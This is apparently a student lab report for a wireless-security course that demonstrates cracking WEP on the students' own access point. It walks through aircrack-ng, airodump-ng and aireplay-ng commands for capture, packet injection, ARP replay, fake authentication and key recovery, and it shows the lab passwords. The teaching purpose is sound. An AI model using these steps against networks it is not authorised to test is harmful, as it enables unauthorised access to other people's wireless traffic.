 ![logo uit](image\uit-logo.png)

# Project : Cracking WEP

Student 1: **17520771** – Lê Thị Huyền My

Student 2: **17521104** – Lê Thị Huyền Thư

Class: NT330.K21.**ANTN**

Lecturer: Lê Kim Hùng

Courses: Wireless Security

### [I.Introduce](#I.%20Introduce)

1. ### [Wired Equivalent Privacy](#1.%20Wired%20Equivalent%20Privacy%20(WEP))

2. ### [WEP Issues](#2.%20WEP%20Issues)

### [II.Hardware](#II.%20Hardware)

### [III.Cracking WEP](#III.%20Cracking%20WEP)

1. ### [Aircrack-ng](#1.%20Aircrack-ng)

    ### [Step 1: Set up wifi modem (low password)](#Step%201:%20Set%20up%20wifi%20modem%20(low%20password))

    ### [Step 2: Run monitor mode](#Step%202:%20Run%20monitor%20mode)

    ### [Step 3: Capture wireless packet](#Step%203:%20Capture%20wireless%20packet)

    ### [Step 4: Cracking WEP](#Step%204:%20Cracking%20WEP)

    ### [Step 5: Set up wifi modem (advance password)](#Step%205:%20Set%20up%20wifi%20modem%20(advance%20password))

# I. Introduce

## 1. Wired Equivalent Privacy (WEP)

- WEP is an IEEE 802.11 wireless protocol which provides security algorithms for data confidentiality during wireless transmissions
- WEP uses 24-bit initalization vector (IV) to form stream cipher RC4 for confidentiality and the CRC-32 checksum for intergrity of wireless transmission.

## 2. WEP Issues

- The IV is a 24-bit field is too small and is sent in the cleartext portion of a message
- Identical key streams are produced with the reuse of the same IP for data protection, as the IV is short key streams are repeated within short time
- Lack of centralized key management makes it difficult to change the WEP keys with any regularity
- When there is IV collision, it becomes possible to reconstruct the RC4 keystream based in the IV and the decrypted payload of the packet
- IV is a part of the RC4 encryption key, leads to a analytical attack that recovers the key after intercepting and analyzing a relatively small amount of traffic
- Use of RC4 was designed to be a one-time cipher and not intended for multiples message use
- No defined method for encryption key distribution
- Wirless adapters from the same vendor may all generate the same IV sequence. This enables attackers to determine the key stream and decrypt the ciphertext
- Associate and disassociate messages are not authenticated
- WEP does not provide cryptographic integrity protection. By capturing two packets an attacker can flip a bit in the encrypted stream and modify the checksum so that the paket is accepted
- WEP is based on a password, prone to password cracking attacks
- An attacker can construct a decryption table of the reconstructed key stream and can use it to decrypt the WEP packets in real-time

# II. Hardware

- OS: Kali Linux 2020.1b amb64 in VMware Workstation 15
- AP: Tp-link TL-WN722N (installed drive Rtl8188eus)
- Core: 4 core
- RAM: 2GB
- SCSI: 80GB

# III. Cracking WEP

## 1. Aircrack-ng

### Step 1: Set up wifi modem (low password)

SSID: LETHIHUYEN \*; 128-bit key; low password: 1234567890123

![set up AP with low password](image\set-up-AP-low-pass.png)

### Step 2: Run monitor mode

> #airmon-ng start wlan0

Use the *iwconfig* command to check

![start mode monitor](image\start-mode-monitor.png)

### Step 3: Capture wireless packet

> #airodump-ng wlan0

Airodump-ng provides basic information cables such as: BSSID, beacons, data, channel, maximu speed, encryption algorithm, cipher detected, authentication protocol, ESSID

![ariodump-ng collect base information](image\airodump-ng-collect-information.png)

We need lock the wireless card on the same channel as the AP with the following command: # iwconfig wlan0mon channel 1

The basic injection test provides additional valuable information as well

> #aireplay-ng -9 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 wlan0

>> -9 means injection test

>> -e LETHIHUYEN\* teddy is the network name (SSID)

>> -a 72:F4:C2:D1:75:08 is MAC address of the access point (BSSID)

>> -wlan0 is the interface name

![injection test](image\injection-test.png)

Capture wireless packet:

> #airodump-ng –bssid 72:F4:C2:D1:75:08 -c 1 -w WEPcrack wlan0

>> --bssid is MAC address of the access point

>> -c 1 is AP channel

>> -w WEPcrack: export to WEP crack file

![capture packet](image\capture-file-wepcrack.png)

Generate traffic:

> #aireplay-ng -3 -b 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:74 wlan0

>> -3 means standard arp request replay

>> -b 72:F4:C2:D1:75:08 is the access point MAC address

>> -h E0:62:67:49:0D:74 is the source MAC address

![generate traffic](image\generate-traffic-1.png)

> #aireplay-ng -1 0 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:7A wlan0

>> -1 means fake authentication

>> 0 reassociation timing in seconds

![generate traffic](image\generate-traffic-2.png)

### Step 4: Cracking WEP

Use the command #aircrack-ng WEPcrack-01.cap to analyze IVs in the file WEPcrack-01.cap. Aircrack-ng can recover the WEP key once enough encrypted packets have been captured.

> Password: 1234567890123

![find low password in WEPcrack](image\find-low-pass.png)

### Step 5: Set up wifi modem (advance password)

Password: LTH\*=.=@uit10

![set up AP with advance passwork](image\set-up-AP-advance-pass.png)

The number of IVs collected is not enough for analysis, there will be a failure message showing the number of IVs needed.

![fail to find password](image\fail-to-get-pass.png)

We got the password

![find advance password](image\find-advance-pass.png)

